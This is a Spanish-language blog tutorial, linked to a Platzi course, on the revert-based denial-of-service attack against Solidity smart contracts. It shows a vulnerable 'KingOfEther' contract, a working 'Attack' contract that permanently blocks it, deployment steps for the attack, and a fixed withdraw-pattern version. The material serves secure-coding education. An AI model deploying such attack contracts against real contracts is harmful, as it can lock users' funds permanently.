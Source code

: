 ```yaml
---
title: 'Solidity: Ataque DoS por reversión'
description: 'Los contratos inteligentes pueden ser víctimas de ataques de denegación de servicios y bloqueados de tal manera que se pierdan millones de dólares y no puedan recuperarse jamás.'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Revert DoS Attack',
  description: 'Smart contracts can be victims of denial-of-service attacks and blocked in such a way that millions of dollars are lost and can never be recovered.'
}
---
```


# Solidity: Ataque DoS por reversión

Es conocido en el mundo de la informática los Ataque de Denegación de Servicios o **DoS**. Los mismos **interrumpen de forma total o parcial un servicio** como un servidor web, un servidor de base de datos o algún tipo de red donde se intercambia información.

## DoS en Blockchain

Blockchain no es la excepción, los contratos inteligentes pueden ser víctimas de este tipo de ataques. Los contratos pueden quedar bloqueados de tal manera que **se pierdan millones de dólares y no puedan recuperarse jamás**.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos un contrato inteligente de un juego cuyo objetivo es convertirse en el "Rey" enviando más ETH que el Rey anterior. El Rey destronado recuperará su ETH al perder el trono. La vulnerabilidad provocará que el contrato inteligente quede inutilizable para siempre y que nadie más pueda proclamarse Rey.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/denial-of-service/).

### Contratos involucrados

Comencemos analizando el contrato del juego que será vulnerado. Su función `claimThrone()` es la encargada de toda la lógica del mismo.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
  address public king;
  uint public balance;

  function claimThrone() external payable {
    require(msg.value > balance, "Need to pay more to become the king");

    // Devolvemos ETH al Rey destronado
    (bool sent, ) = king.call{value: balance}("");
    require(sent, "Failed to send Ether");

    // Seteamos al nuevo Rey
    balance = msg.value;
    king = msg.sender;
  }
}
```

Por su parte, el contrato atacante. Su función `receive()` es la responsable de denegar el servicio para siempre del otro contrato.

```js
contract Attack {
  KingOfEther kingOfEther;

  constructor(KingOfEther _kingOfEther) {
    // Instanciamos KingOfEther con su dirección
    kingOfEther = KingOfEther(_kingOfEther);
  }

  // Función que revertirá la transacción siempre que se intente devolver el ETH al contrato.
  // Haciendo que nadie más pueda reclamar el trono.
  receive() external payable {
    revert();
  }

  // El ataque se origina cuando enviamos más ETH que el anterior Rey y el contrato Attack se convierte en el nuevo.
  function attack() public payable {
    kingOfEther.claimThrone{value: msg.value}();
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `KingOfEther`.
2. Enviar 1 ETH con Alice a través de la función `claimThrone()`.
2. Enviar 2 ETH con Bob a través de la función `claimThrone()`. Alice recupera 1 ETH y Bob es el nuevo Rey.
3. Desplegar el contrato `Attack` que recibe por parámetro la dirección de `KingOfEther`.
4. Realizar el llamado a `Attack.attack` con 3 ETH.
5. El nuevo Rey será el contrato atacante y nadie más podrá reclamar el reinado.

### ¿Qué sucedió aquí?

`Attack` se convirtió en el nuevo Rey. Nadie más puede reclamar el trono debido a que, cuando el contrato `KingOfEther` intenta devolverle sus ETH al contrato atacante, el mismo responde con un `revert()` a través de su función `receive()`.

El ataque genera que solo el contrato atacante pierda sus ETH, ya que el Rey destronado los recupera antes de setear como Rey al contrato atacante.

Si bien, como hemos dicho, *"solo el contrato atacante pierde sus ETH"*, puede parecer un ataque sin ningún tipo de sentido, ya que es ocasionado solo por querer hacer daño a un proyecto y para que el contrato quede inutilizable. Aun así, existen escenarios donde también hay perdidas económicas de otros usuarios.

### ¿Por qué sucedió?

`KingOfEther` espera una respuesta positiva al realizar el `call()` y devolver los ETH a su respectivo dueño. El `revert()` del contrato atacante provoca que en cada llamado siempre ocurra un error y nunca pueda setearse un nuevo Rey.

Cabe recalcar que la vulnerabilidad puede exponerse no solo a través de la función `receive()` más un `revert()`. Podría simplemente no existir una función `fallback()` en el contrato atacante y provocar el mismo daño de inutilizar el contrato vulnerado.

### ¿Cómo se puede evitar?

Observa la función principal de `KingOfEther`:

```js
function claimThrone() external payable {
  require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");

  (bool sent, ) = king.call{value: balance}("");
  require(sent, "El envio de ETH ha fallado.");

  balance = msg.value;
  king = msg.sender;
}
```

La misma se encarga tanto de devolver los ETH a su dueño como de setear al nuevo Rey posteriormente.

Esta vulnerabilidad puede evitarse haciendo una **división de responsabilidad**. Por un lado, la lógica para determinar al nuevo Rey. Por otro, el retiro de los ETH por parte de los usuarios que fueron destronados.

```js
contract KingOfEther {
  address public king;
  uint public balance;
  mapping(address => uint) public balances;

  function claimThrone() external payable {
    require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");
    balances[king] += balance;
    balance = msg.value;
    king = msg.sender;
  }

  function withdraw() public {
    require(msg.sender != king, "El Rey actual no puede retirar sus fondos.");
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "El envio de ETH ha fallado.");
  }
}
```

La administración de los balances de cada cuenta siempre es mejor realizarla con un `mapping`. La función `withdraw()` permitirá a los usuarios retirar su dinero (a excepción del Rey actual) y, por más que ocurra algún tipo de denegación, podrán recuperar sus ETH.

Cada usuario es responsable de sus ETH. El retiro del mismo deben hacerlo ellos mismos y ya no será el propio contrato inteligente quien se encargue de devolvérselos.

De esta forma, el ataque DoS solo afectará al mismo contrato atacado, quién será el único que no puede recuperar sus ETH.

## Conclusiones

Hay mucha gente que busca hacer daño allá afuera. Por más que ellos también salgan perjudicados económicamente. Buscan destruir un proyecto o comunidad que puede haber por detrás.
Busca siempre las mejores prácticas a la hora de escribir código. Como en todo desarrollo de software, existen patrones de diseño recomendados para escribir código. El *Principio de Responsabilidad Única* del patrón SOLID también aplica para el desarrollo Web3.

---
Post creado en colaboración con el [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45718-denegacion-por-reversion/) de **Platzi**.
